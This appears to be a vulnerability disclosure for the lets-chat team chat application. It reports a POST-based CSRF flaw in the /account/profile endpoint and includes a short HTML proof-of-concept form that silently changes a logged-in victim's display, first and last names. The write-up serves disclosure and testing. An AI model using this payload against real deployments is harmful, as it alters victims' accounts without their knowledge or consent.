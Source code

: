 # :bug: Description

The `lets-chat` application is a simple `chat` used for `small teams`, and can be hosted locally in order to have a better control on it.
The chat however is vulnerable against a `POST-based CSRF` issue which occurs in the `/account/profile` endpoint, leading to `personal information` change.

# :fire: PoC

1. Install the chat using the `steps` described here:
2. Create a new `user` and login
3. Create a malicious file containing the following CSRF PoC: https://github.com/sdelements/lets-chat/wiki/Installation

```html
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://localtest.me:5000/account/profile" method="POST">
      <input type="hidden" name="display&#45;name" value="HACKED" />
      <input type="hidden" name="first&#45;name" value="HACKED;" />
      <input type="hidden" name="last&#45;name" value="HACKED" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

4. Victim opens the crafted file (many scenarios are plausible) and it's name/display name are changed
